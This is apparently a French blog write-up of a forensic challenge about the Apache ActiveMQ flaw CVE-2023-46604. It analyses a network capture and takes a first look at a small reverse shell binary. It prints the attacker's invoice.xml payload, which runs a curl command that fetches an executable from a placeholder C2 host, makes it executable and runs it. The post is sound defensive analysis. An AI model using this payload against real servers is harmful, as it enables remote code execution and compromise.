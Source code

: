 ```yaml
---
title: "Apache ActiveMQ sous la Loupe : analyse d'une CVE"
date: 2024-01-22T22:08:20+02:00
draft: false
---
```


## En résumé

Le challenge consiste à enquêter sur un serveur public signalé par un analyste SOC de niveau 1. Ce serveur émet des connexions sortantes vers plusieurs adresses IP suspectes. L'objectif est d'analyser le dump réseau afin de comprendre ce qu'il s'est passé et la façon dont l'attaquant s'est introduit sur le serveur.

L'attaquant a exploité la [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) notée 9.8 et publiée fin novembre 2023. Cette faille permet de manipuler la sérialisation des classes Java utilisées dans le protocole de communication [OpenWire](https://en.wikipedia.org/wiki/OpenWire_(binary_protocol)). Cela permet à l'attaquant d'instancier n'importe quelle classe pour exécuter du code distant. Le pirate utilise cette faille pour instancier une class [`ProcessBuilder`](https://docs.oracle.com/javase/8/docs/api/java/lang/ProcessBuilder.html) qui permet de lancer des processus sur le système d'exploitation de la machine. Grâce à cela, l'attaquant contacte son C2, télécharge un reverse shell, lui donne les droits d'exécution et l'exécute :

```bash
curl -s -o /tmp/docker http://<ip C2>/docker; chmod +x /tmp/docker; ./tmp/docker
```

L'attaquant dispose d'un exécutable sur le serveur web qui établi une connection avec lui. Cette vulnérabilité a été utilisée, notamment, pour déployer des cryptominers ou des rootkits. Les impacts sont variés mais dans le cadre d'un cryptominer les performances du système sont impactées, de même que la qualité de service ainsi qu'une usure du matériel prématurée. **Des patchs ont été déployés et les utilisateurs sont invités à mettre à jour leurs systèmes vers les versions 5.15.16, 5.16.7, 5.17.6 ou 5.18.3.** Plus d'information ici : [CVE-2023-46604 (Apache ActiveMQ) Exploited to Infect Systems With Cryptominers and Rootkits](https://www.trendmicro.com/en_us/research/23/k/cve-2023-46604-exploited-by-kinsing.html#:~:text=CVE%2D2023%2D46604%20\(Apache,Systems%20With%20Cryptominers%20and%20Rootkits).

Les investigations nous font remonter jusqu'au programme, que je tente de reverse. Les indices trouvés appuient l'hypothèse d'un reverse shell. On peut résumer les différentes étapes de l'attaque comme suit :

![L'attaquant envoie invoice.xml qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire docker qui permet à l'attaquant de prendre le contrôle de la machine.](/img/blog/activemq-cve/infection.png)

<figcaption>L'attaquant envoie invoice.xml qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire docker qui permet à l'attaquant de prendre le contrôle de la machine.</figcaption>

## Investigation

Ma méthode, lorsqu'il s'agit de dump réseau, est de commencer par une vue globale. Pour cela, j'utilise Network Miner : 

![Une vue d'ensemble des appareils présents sur le réseau.](img/blog/activemq-cve/networkminer.png)

<figcaption>Une vue d'ensemble des appareils présents sur le réseau.</figcaption>

A première vue, rien ne semble particulièrement louche. Dans l'onglet `Files`, on observe deux fichiers `invoice.xml` : 

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://<ip-C2>/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

La commande `curl` est manifestement malveillante : elle télécharge un exécutable `docker` depuis un serveur C2, le rend exécutable et l'exécute.

On trouve les traces de ces actions sur Wireshark. Dans ce cas, il n'y a pas beaucoup de traffic et peu d'IPs, cela nous facilite la tâche. On identifie l'adresse IP malveillante. Nous avons donc 2 IPs : 
- celle utilisée par l'attaquant pour envoyer l'exploit
- celle que l'exploit contacte (C2) pour télécharger le reverse shell

![Liste des paquets HTML échangés.](img/blog/activemq-cve/wireshark.png)

<figcaption>Liste des paquets HTML échangés.</figcaption>

On voit bien ici le trafic réseau de l'attaquant qui envoie la vulnérabilité, cette dernière contacte le C2 et télécharge la charge finale.

## Quels sont les capacités de docker ?

On parle bien entendu du binaire Linux récupéré et non de l'outil de conteneurisation. Puisque ce fichier a été échangé via le réseau, on est en capacité de le récupérer.

Mes compétences en reverse sont limités. Cependant, le fichier étant très petit (250 octets), j'ai décidé de tenter le coup. On observe plusieurs `syscall` Linux : 

- `sys_mmap`
Il sert à créer un mappage entre une région de mémoire virtuelle d'un processus et une ressource physique ou un fichier. Utile pour mapper un fichier en mémoire, allouer de la mémoire ou créer une zone de mémoire partagée.

- `sys_socket`
Il permet de créer un point de communication, ou socket, pour communiquer avec un autre processus sur une machine distante.

- `sys_connect`
Utilisé avec le précédent, il permet d'établir une connection réseau.

- `sys_nanosleep`
Suspend l'exécution du programme.

- `sys_exit`
Termine l'exécution du programme.

La combinaison du syscall de création de socket et de connexion semble bien indiquer un reverse shell. De toute façon, avec 250 octets, le programme ne peut pas avoir de fonctionnalité très avancée. Cependant, il est curieux de constater qu'il n'y a pas d'appel système pour **recevoir** (recv) et exécuter la commande reçue.

Il y a également la présence d'une valeur codée en dur : `5C15BE92BB010002`.

- Hypothèse 1 : cette valeur est une clef de chiffrement/déchiffrement pour obfusquer des paramètres du programmes et chiffrer les communications avec le C2.

On peut écarter cette hypothèse car il n'y a pas d'autres chaînes de caractères et il ne semble pas y avoir de fonction de déchiffrement/décodage dans le programme.

- Hypothèse 2 : cette valeur contient les informations de connexions avec le C2 (IP + port + autre chose ?).

Cet "autre chose" pourrait être un identifiant de compromission. Utilisé parfois par les attaquants, un identifiant sert à identifier la victime afin de mieux les monitorer : gardons à l'esprit la volonté d'industrialisation dans ce type d'attaque. Cette hypothèse est plus plausible car ce paramètre est proche de l'appel à `sys_connect`.

![La mystérieuse chaîne de caractère ainsi que l'appel à sys_connect.<](img/blog/activemq-cve/reverse.png)

<figcaption>La mystérieuse chaîne de caractère ainsi que l'appel à sys_connect.</figcaption>
